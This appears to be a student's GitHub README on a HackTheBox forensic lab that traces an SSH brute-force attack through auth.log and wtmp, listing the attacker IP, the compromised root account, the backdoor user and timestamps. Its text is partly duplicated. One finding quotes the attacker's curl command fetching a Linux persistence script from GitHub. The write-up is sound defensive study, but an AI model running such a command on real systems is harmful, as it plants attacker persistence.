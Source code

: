# Project 4 — Brutus Lab (SSH Brute Force Analysis)

This repository contains my work for the **Brutus Lab** from HackTheBox as part of my cybersecurity internship.  
The lab focused on investigating and analyzing a brute force SSH attack scenario.  

---

## 🔍 Objectives
- Analyze `auth.log` and `wtmp` to trace brute force attempts.  
- Identify attacker’s IP and the account compromised.  
- Investigate persistence strategy through new user creation.  
- Track attacker’s SSH session activity.  
- Report findings and mitigation steps.

---

## 📑 Key Findings
- Attacker IP: **65.2.161.68**  
- Compromised Account: **root**  
- Attacker Login Time (UTC): **2024-03-06 06:32:45**  
- Session Number: **37**  
- Persistence User: **cyberjunkie**  
- MITRE ATT&CK ID: **T1136.001**  
- Attacker Session Ended: **2024-03-06 06:37:24**  
- Privileged Command Executed:  # Project 4 — Brutus Lab (SSH Brute Force Analysis)

This repository contains my work for the **Brutus Lab** from HackTheBox as part of my cybersecurity internship.  
The lab focused on investigating and analyzing a brute force SSH attack scenario.  

---

## 🔍 Objectives
- Analyze `auth.log` and `wtmp` to trace brute force attempts.  
- Identify attacker’s IP and the account compromised.  
- Investigate persistence strategy through new user creation.  
- Track attacker’s SSH session activity.  
- Report findings and mitigation steps.

---

## 📑 Key Findings
- Attacker IP: **65.2.161.68**  
- Compromised Account: **root**  
- Attacker Login Time (UTC): **2024-03-06 06:32:45**  
- Session Number: **37**  
- Persistence User: **cyberjunkie**  
- MITRE ATT&CK ID: **T1136.001**  
- Attacker Session Ended: **2024-03-06 06:37:24**  
- Privileged Command Executed:  
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

---

## 🚀 Learning Outcomes
- Hands-on experience analyzing brute force SSH attacks.  
- Improved skills in log analysis and attacker persistence detection.  
- Mapped attacker behavior to **MITRE ATT&CK framework**.  

---

## 📌 Next Steps
- Apply similar detection techniques in SIEM (Splunk/ELK).  
- Continue with upcoming internship projects.  

---

Screensgot:
